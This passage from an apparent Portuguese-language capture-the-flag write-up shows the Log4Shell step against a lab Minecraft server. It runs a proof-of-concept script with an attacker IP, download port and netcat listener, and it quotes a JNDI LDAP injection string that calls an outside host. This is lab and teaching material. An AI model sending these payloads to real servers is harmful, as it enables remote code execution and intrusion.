 ![alt text](/assets/img/crafty/crafty3.png)  

Executei o exploit da seguinte forma:
 
 `python3 poc.py --userip SEUIP --webport 8888 --lport 4445`  
 `--webport` a porta que vai criar um servidor http para vitima baixar o exploit após execução do comando no minecraft  
`--lport` a porta que você irá listar com o netcat  

No minecraft usei esse comando no chat

`${jndi:ldap://10.10.16.62:1389/a}`

![alt text](/assets/img/crafty/crafty4.png)

### Primeira Flag
![alt text](/assets/img/crafty/crafty5.png)
